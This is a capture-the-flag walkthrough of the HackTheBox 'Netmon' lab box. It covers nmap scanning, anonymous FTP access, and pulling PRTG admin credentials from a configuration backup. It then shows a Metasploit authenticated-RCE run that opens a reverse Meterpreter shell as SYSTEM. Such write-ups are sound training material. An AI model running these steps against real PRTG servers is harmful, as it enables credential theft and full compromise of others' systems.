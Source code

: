 # Netmon

Machine Level: Easy <br />
OS: Windows

## Scanning 
I ran an aggressive NMAP scan to figure out what services were running on the machine. 
```
ajread@aj-ubuntu:~/hackthebox$ nmap -A [TARGET IP] -Pn
Starting Nmap 7.80 ( https://nmap.org ) at 2023-02-17 14:21 EST
Nmap scan report for [TARGET IP]
Host is up (0.013s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 02-03-19  07:08AM       <DIR>          Users
|_02-25-19  10:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-02-17T19:22:02
|_  start_date: 2023-02-17T19:19:21

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.38 seconds
```
## Enumeration
I logged into the anonymous FTP service. 
```
ajread@aj-ubuntu:~/hackthebox$ ftp [TARGET IP]
Connected to [TARGET IP].
220 Microsoft FTP Service
Name ([TARGET IP]:ajread): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49840|)
150 Opening ASCII mode data connection.
02-02-19  11:18PM                 1024 .rnd
02-25-19  09:15PM       <DIR>          inetpub
07-16-16  08:18AM       <DIR>          PerfLogs
02-25-19  09:56PM       <DIR>          Program Files
02-02-19  11:28PM       <DIR>          Program Files (x86)
02-03-19  07:08AM       <DIR>          Users
02-25-19  10:49PM       <DIR>          Windows
226 Transfer complete.
```
## Initial Access
And I found the user flag. 
```
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||49857|)
125 Data connection already open; Transfer starting.
100% |*************************************|    34        1.75 KiB/s    00:00 ETA
226 Transfer complete.
34 bytes received in 00:00 (1.71 KiB/s)
```
I used the hackthebox writeup to help me with the next step. Looking at the PRTG [documentation](https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data), there are interesting configuration files that could be view. One of them is an old.bak, which I downloaded.
```
ftp> get PRTG\ Configuration.old.bak
local: PRTG Configuration.old.bak remote: PRTG Configuration.old.bak
229 Entering Extended Passive Mode (|||50835|)
150 Opening ASCII mode data connection.
100% |*************************************|  1126 KiB    5.37 MiB/s    00:00 ETA
226 Transfer complete.
1153755 bytes received in 00:00 (5.36 MiB/s)
```
Within the file, I found user credentials to the db. 
```
            <dbpassword>
	      <!-- User: prtgadmin -->
	      [REDACTED]
            </dbpassword>
```
The creds had to be incremented by a year to follow the pattern. Now, I had access to the network monitor. 
## Privilege Escalation 
I did some research and found that this version of PRTG is vulnerable to remote code execution using notifications and poor input validation. More information can be found [here](https://www.rapid7.com/db/modules/exploit/windows/http/prtg_authenticated_rce/). I took the easy way out and loaded up metasploit to throw the ```prtg_authenticated_rce``` at the box using the admin credentials. 
```
msf6 exploit(windows/http/prtg_authenticated_rce) > run

[*] Started reverse TCP handler on [LOCAL IP]:4444 
[+] Successfully logged in with provided credentials
[+] Created malicious notification (objid=2018)
[+] Triggered malicious notification
[+] Deleted malicious notification
[*] Waiting for payload execution.. (30 sec. max)
[*] Sending stage (175686 bytes) to [TARGET IP]
[*] Meterpreter session 1 opened ([LOCAL IP]:4444 -> [TARGET IP]:51051) at 2023-02-17 15:41:08 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```
I was dropped into a shell and able to view the root flag.
```
meterpreter > dir
Listing: C:\Users\Administrator\Desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2019-02-03 07:08:39 -0500  desktop.ini
100444/r--r--r--  34    fil   2023-02-17 14:19:59 -0500  root.txt
```
